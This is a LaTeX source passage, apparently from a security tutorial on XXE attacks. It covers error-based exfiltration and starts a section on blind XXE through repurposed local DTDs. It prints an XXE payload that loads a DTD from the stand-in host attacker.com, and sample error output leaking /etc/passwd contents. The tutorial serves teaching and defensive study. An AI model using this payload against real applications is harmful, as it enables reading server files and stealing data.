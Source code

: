 \documentclass{article}
\begin{document}
\subsubsection{The Resulting Error Message}

Invoking the malicious external DTD will result in an error message like the following:

\begin{lstlisting}[caption=Error Message Containing Exfiltrated Data]
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
... (FileNotFoundException thrown)
\end{lstlisting}

\subsubsection{Triggering the Attack}

The attacker submits the following XXE payload to the vulnerable application:

\begin{lstlisting}[language=XML, caption=Payload to Trigger Error-Based Exfiltration]
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd">
    %xxe;
]>
\end{lstlisting}

\section{Exploiting Blind XXE by Repurposing a Local DTD}

When out-of-band interactions are blocked and external DTDs cannot be loaded from remote servers, attackers need an alternative approach. This section covers a sophisticated technique that repurposes existing DTD files on the local filesystem to trigger error-based data exfiltration.

\subsubsection{Limitations of Internal DTDs}

The error-based technique described in the previous section works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the DOCTYPE element. 
\end{document}
